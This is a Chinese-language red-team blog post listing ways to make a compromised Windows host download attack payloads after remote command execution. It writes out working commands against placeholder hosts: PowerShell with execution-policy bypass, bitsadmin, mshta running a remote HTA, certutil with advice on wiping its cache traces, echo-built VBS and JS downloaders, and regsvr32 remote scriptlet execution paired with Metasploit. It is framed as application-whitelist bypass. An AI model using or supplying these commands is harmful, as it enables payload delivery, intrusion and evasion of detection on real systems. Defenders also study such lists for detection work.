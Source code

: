 ```yaml
---
layout:     post
title:    Windows下远程下载的一些姿势
subtitle:   Windows远程下载payload
date:       2019-10-24
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 红队
    - 渗透测试
    - 白名单
---
```

# Windows下远程下载的一些姿势

## 简介
现在越来越多的场景是利用RCE工具直接执行命令，在这种情境下，有时候为了返回一个beacon或者meterpreter需要上传payload，而直接上传又不那么方便，这时候就会需要用命令去让服务器下载payload，这里主要讲windows，用的最多的还是powershell，但是光靠powershell一种姿势肯定不够，毕竟是win 7之后才内置了ps，而且也不仅仅只能靠ps去执行下载，这里列出几种常用的方法参考。  

## Powershell  
有关于powershell的文章很多，我这里就简单的列一下。  
```
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://xxx.xxx.xxx.xxx/1.txt','C:\1.txt')
```
![191024_1](/img/191024_powershell.png)  
在powershell 3.0版本后还引入了wget的功能。  
```
powershell Invoke-WebRequest -Uri "http://xxx.xxx.xx.xxx/1.txt" -OutFile "C:\1.txt"
```  

## Bistadmin  
BISTAdmin从win 7以上是自带的，在网络不稳定的情况下可以使用，它会在下载出错的情况下自动重试。  
```
bitsadmin /rawreturn /transfer down "http://xxx.xxx.xxx.xxx/1.txt" C:\1.txt
bitsadmin /transfer down /download /priority normal "http://xxx.xxx.xxx.xxx/1.txt" C:\1.txt
```
上述命令，后者是可以查看进度条，我没怎么用过。  
![191024_2](/img/191024_bistadmin.png)  
注意：在下载大文件的时候是要提升下优先级的。  
```
bitsadmin /setpriority down foreground 
```

## Mshta  
这个工具不用多说，经常用，用来执行hta文件，通常就是后面跟一个url执行hta，它会通过mshta去执行网络调用，缓存文件在IE缓存中。  
```
mshta http://xxx.xxx.xxx.xxx/x.hta
```

## Certutil
Certutil.exe是一个命令行程序，作为证书服务的一部分安装。您可以使用Certutil.exe转储和显示证书颁发机构(CA)配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。  
```
certutil.exe -urlcache -split -f http://xxx.xxx.xxx.xxx/1.txt  #会保存在当前目录下
```
certutil下载完后会留有缓存，需要清除痕迹，执行：  
```
certutil.exe -urlcache -split -f http://xxx.xxx.xxx.xxx/1.txt delete
```
![191024_3](/img/191024_certutil.png)   

## Vbs脚本下载  
首先创建vbs文件，这里因为很多情况下是要自己用echo去写入的，我直接贴命令。  
```
echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open ^"get^",wsh.arguments( 0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 >>download.vbs
```
原脚本代码去掉echo 还有用于转义的^符号即可。  
写入后，执行：  
```
cscript download.vbs http://xxx.xxx.xxx.xxx/1.txt C:\1.txt
```
![191024_4](/img/191024_vbs.png)  
这种方式是全版本通用的，但是https是不行的。  

## Js脚本下载
也是通过cscript来调用，直接贴一下源码：  
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open(); BinStream.Write(WinHttpReq.ResponseBody); BinStream.SaveToFile("1.txt");
```
实际中需要用echo去写入：  
```
echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); WinHttpReq.Open("GET", WScript.Arguments(0), ^/*async=*^/false); WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open(); BinStream.Write(WinHttpReq.ResponseBody); BinStream.SaveToFile("1.txt"); >> download.js
```
使用的时候跟vbs一样：  
```
cscript /nologo download.js http://xxx.xxx.xxx.xxx/1.txt
```

## Regsvr32
Regsvr32.exe是windows用于注册dll和ActiveX控件的一个工具，可以通过下载payload文件缓存到IE中，远程注册执行，通常这里配合msf使用，但是有个问题，msf生成的sct，底层其实还是调用了powershell的downloadstring+iex方式，如果在有防护软件的情况下可能会翻车。要根据实际情况来使用。    
调用命令：  
```
regsvr32 /s /n /u /i:http://xxx.xxx.xxx.xxx/abcd123.sct scrobj.dll
```
msf配置如下：   
![191024_5](/img/191024_sctwebdav.png)  
我本地执行的时候崩了，什么鬼。。  
![191024_6](/img/191024_regsvr32.png)  

## 总结  
类似的姿势还有很多，windows这种远程的程序白名单绕过有很多，我只列了一些我常用到的，实际中肯定还是要根据实际情景去选择，组合利用。  
其实就是我又菜又懒惰而已。   
说到底还是条懒狗。   
